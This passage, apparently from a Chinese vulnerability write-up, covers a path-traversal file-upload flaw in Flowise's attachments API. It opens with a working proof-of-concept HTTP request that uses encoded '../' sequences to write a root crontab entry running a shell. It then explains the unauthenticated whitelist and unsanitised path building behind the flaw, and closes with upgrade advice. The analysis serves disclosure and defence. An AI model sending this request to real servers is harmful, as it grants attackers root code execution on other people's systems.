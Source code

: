 ```
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fetc/./ HTTP/1.1  
Host: yourURL  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 219  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="crontab"  
Content-Type: text/plain  

*/1 * * * * root bash -c "your shell"

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9V9LZI4tb6t709KbDK4wBV2ibpeGjMFPznF7PPoDx8EYqF0LCpichy1MQ/640?wx_fmt=png&from=appmsg "")  
## 0x06 漏洞分析  
### 1) API 白名单机制  
  
在 Flowise 平台的核心架构中，存在一个名为 constants.ts  
 的文件。这个文件中定义了一个名为 WHITELIST_URLS  
 的变量，它包含了一系列无需认证即可访问的API端点。这种设计的目的是为了方便实现一些特定功能，例如API密钥验证、公共聊天流和文件操作等。这些功能不需要用户进行身份认证就可以运行，从而提升了用户体验和系统的灵活性。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9cTgvOCSyiacwicaJCYjp06ZDY9b54RsVEic3G0kDJ0wiaZic06yn05zAicmA/640?wx_fmt=png&from=appmsg "")  
### 2) 鉴权流程  
  
当服务器接收到HTTP请求时，会按照严格的逻辑进行鉴权：首先检查请求路径是否包含 /api/v1  
 前缀（不区分大小写），接着进行大小写敏感的路径验证；然后判断该URL是否在白名单 WHITELIST_URLS  
 中，如果在白名单内，就继续处理请求；如果不在白名单内，再检查请求头中是否有 internal  
 标记，或者验证API密钥，只有通过这些检查后，请求才会被允许继续处理  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9AhAZgJlfhibTammDdT7QZVbGgZ7nHyyZTkgBMtSM0ET2rAJXQADI7ow/640?wx_fmt=png&from=appmsg "")  
### 3) 文件上传处理逻辑  
  
/api/v1/attachments/  
 路由负责处理文件上传创建操作。在 createFileAttachment  
 函数里，会调用addArrayFilesToStorage  
 处理文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik988FTmOLFgy8VYyibUokhLNlCoicibcCpLiaZThNVkZaP92ApccsOdqXKgA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9sD0NlSJV3hsR7niaiaR8f894quguBpuVaBvB7hLUOMk8Cq6F94uia5d6A/640?wx_fmt=png&from=appmsg "")  
  
在 addArrayFilesToStorage  
 函数处理文件地址时，会把 chatflowId  
 和 chatId  
 直接拼接到路径里，而且没有进行任何处理，这就导致攻击者能通过编码绕过目录限制，实现跨目录上传，这就是漏洞产生的关键原因。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9kK4Al1l1Hx7jqESG8ByeQgs0j5Cc6q4a42RBJ7g41Lxl6lsWXKG2tQ/640?wx_fmt=png&from=appmsg "")  
## 0x07修复建议  
### 1) 官方修复  
- **升级版本**  
：将 Flowise 升级至最新版本（>= 2.2.7），官方已在该版本中修复了此漏洞。  
  